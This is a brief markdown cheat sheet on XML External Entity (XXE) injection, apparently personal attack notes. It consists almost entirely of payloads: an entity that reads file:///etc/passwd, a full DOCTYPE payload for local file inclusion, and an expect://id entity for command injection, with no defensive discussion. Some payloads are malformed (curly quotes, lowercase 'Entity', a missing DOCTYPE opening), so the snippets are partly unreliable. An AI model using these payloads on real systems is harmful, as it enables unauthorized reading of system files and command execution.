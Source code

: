 # XXE

## Concept
```<!Entity nooranet SYSTEM “file:///etc/passwd”>```

## Exploitation
- LFI
```xml
<!DOCTYPE foo[
<!Entity xxe SYSTEM “file:///etc/passwd”>]>
<foo>&xxe;</foo>
```
- Command Injection
```xml
<!Entity xxe SYSTEM “expect://id”>]>
```
